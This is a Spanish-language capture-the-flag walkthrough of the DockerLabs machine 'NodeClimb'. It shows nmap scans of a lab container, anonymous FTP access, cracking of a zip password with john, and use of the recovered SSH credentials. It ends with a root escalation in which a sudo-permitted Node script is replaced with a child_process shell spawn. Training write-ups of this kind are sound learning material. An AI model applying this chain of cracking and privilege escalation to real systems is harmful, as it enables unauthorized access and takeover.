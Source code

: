 #MAQUINA #DOCKERLABS #FACIL
#FTP_ANON 
<hr>
# RECONOCIMIENTO

Vamos a resolver **NodeClimb** de la plataforma **DockerLabs**.

   ```bash

Máquina desplegada, su dirección IP es --> 172.17.0.2

```

Primero vamos a hacer un escaneo de puertos rápido:

```bash
nmap -sS --min-rate 5000 -vvv -n -Pn -p- 172.17.0.2 --open
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-04 12:37 CET
Initiating ARP Ping Scan at 12:37
Scanning 172.17.0.2 [1 port]
Completed ARP Ping Scan at 12:37, 0.05s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 12:37
Scanning 172.17.0.2 [65535 ports]
Discovered open port 21/tcp on 172.17.0.2
Discovered open port 22/tcp on 172.17.0.2
Completed SYN Stealth Scan at 12:37, 0.48s elapsed (65535 total ports)
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.0000030s latency).
Scanned at 2024-12-04 12:37:40 CET for 1s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 64
22/tcp open  ssh     syn-ack ttl 64
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.68 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)
```

- **`--open`**: Muestra solo los puertos abiertos en la salida.
- **`-sS`**: Especifica un escaneo TCP SYN, que es más sigiloso que un escaneo de conexión completa.
- **`--min-rate 5000`**: Establece la tasa mínima de paquetes enviados a 5000 por segundo, haciendo que el escaneo sea más rápido.
- **`-vvv`**: Aumenta el nivel de verbosidad, proporcionando una salida más detallada durante el escaneo.
- **`-n`**: No resuelve DNS; esto evita retrasos por búsquedas de nombres.
- **`-Pn`**: Trata el objetivo como si estuviera en línea; omite el descubrimiento de hosts.
- **`-p-`**: Escanea todos los 65535 puertos en lugar de solo los más comunes.

**Conclusiones:** El ttl al ser 64 nos dice que es una máquina **Linux**. Además, vemos que tiene el puerto **21(FTP)** y el puerto **22(SSH)** abiertos.

Ahora vamos a hacer un escaneo con mayor detalle:

   ```bash
nmap -sCV -p21,22 172.17.0.2                     
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-04 12:38 CET
Nmap scan report for pressenter.hl (172.17.0.2)
Host is up (0.000024s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             242 Jul 05 09:34 secretitopicaron.zip
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:172.17.0.1
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 cd:1f:3b:2d:c4:0b:99:03:e6:a3:5c:26:f5:4b:47:ae (ECDSA)
|_  256 a0:d4:92:f6:9b:db:12:2b:77:b6:b1:58:e0:70:56:f0 (ED25519)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 0.59 seconds
```

- **`-sC`**: Realiza un escaneo de scripts (Nmap Scripting Engine, NSE). Esto permite ejecutar scripts de `nmap` para obtener información adicional sobre los servicios detectados, como vulnerabilidades, configuraciones o detalles específicos de los mismos.
- **`-sV`**: Realiza la detección de versiones de servicios. Esto intenta identificar la versión exacta del software que está escuchando en un puerto abierto, lo que puede ayudar a determinar si hay vulnerabilidades conocidas.

**Conclusiones:** El puerto FTP es vulenrable a **ftp-anon** (usuario anonymous sin contra).

## FTP(21)

Al ingresar vemos un zip y al traerlo vemos que para hacer unzip necesitamos una contra, por lo que usaremos john : 

   ```bash
└─# zip2john secretitopicaron.zip > x
ver 1.0 efh 5455 efh 7875 secretitopicaron.zip/password.txt PKZIP Encr: 2b chk, TS_chk, cmplen=52, decmplen=40, crc=59D5D024 ts=4C03 cs=4c03 type=0
                                                                                                                                                                       
└─# john x --show
secretitopicaron.zip/password.txt:password1:password.txt:secretitopicaron.zip::secretitopicaron.zip

1 password hash cracked, 0 left
                                                                                                                                                                    
└─# unzip secretitopicaron.zip
Archive:  secretitopicaron.zip
[secretitopicaron.zip] password.txt password: 
 extracting: password.txt  
```

Al revisar el password vemos lo siguiente :

   ```bash
   
mario:laKontraseñAmasmalotaHdelbarrioH

```

# ESCALADA PRIVILEGIOS

Buscamos archivos con permisos SUID:
   ```bash
mario@4e52535d520a:~$ sudo -l
Matching Defaults entries for mario on 4e52535d520a:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User mario may run the following commands on 4e52535d520a:
    (ALL) NOPASSWD: /usr/bin/node /home/mario/script.js
```

Vemos **/home/mario/script.js** con permisos SUDO. Es nuestro el archivo, cambiamos permisos y contenido y lo ejecutamos con sudo:
   ```bash
mario@4e52535d520a:~$ sudo -l
Matching Defaults entries for mario on 4e52535d520a:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User mario may run the following commands on 4e52535d520a:
    (ALL) NOPASSWD: /usr/bin/node /home/mario/script.js
mario@4e52535d520a:~$ cat script.js 
require("child_process").spawn("/usr/bin/sh", {stdio: [0, 1, 2]})
mario@4e52535d520a:~$ sudo /usr/bin/node /home/mario/script.js 
# whoami
root
# 
```

**YA ESTAMOS COMO ROOT.**
